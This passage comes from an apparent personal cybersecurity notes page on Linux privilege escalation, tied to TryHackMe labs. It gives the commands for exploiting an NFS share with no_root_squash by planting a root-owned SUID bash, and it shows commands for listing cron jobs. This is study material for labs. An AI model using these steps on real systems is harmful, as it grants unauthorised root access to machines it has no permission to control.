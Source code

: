 <div class="row row-cols-md-2"><div>

To avoid copying and pasting information too much, you will have to read these pages for more information.

* [NFS protocol](/info/networking/protocols/index.md#-nfs---2049-tcp)
* [NFS notes](/cybersecurity/exploitation/services/index.md#nfs---2049-tcp)

To summarize, locally, you can use this command to find NFS shares.

```bash
# see NFS exports
$ cat /etc/exports
```
</div><div>

You will find an exploitable NFS misconfiguration when the option `no_root_squash` is set for a share. Root squashing map any local user to the user "nobody". If disabled, then the root user on the local machine will have root privilege inside the share.

```bash
# on the remote host, we create a bash inside the share
$ cp /bin/bash /share/sbash
# on the local host
# we give the file root privileges
$ sudo chown root /tmp/share/sbash
$ sudo chmod +s /tmp/share/sbash
# Then on the host, running the SUID file
# will run it as root
$ /share/sbash -p
```
</div></div>

<hr class="sep-both">

## Cron tasks/jobs

[![startup](../../_badges/thm-p/startup.svg)](https://tryhackme.com/room/startup)

<div class="row row-cols-md-2"><div>

Cron is the name given to automated tasks on Linux.

```bash
# tasks of the current user
$ crontab -l
# list every system-wide cron task
$ ls -la /etc/cron*
```

⚠️ It's worth noting that system-wide cron tasks and user-created cron tasks are not stored in the same place. Only root can browse/list other users' cron tasks.

```bash
# tasks of the user 'root'
$ sudo ls /var/spool/cron/crontabs/root
# tasks of the user 'root'
$ sudo crontab -l -u root
```
</div><div>
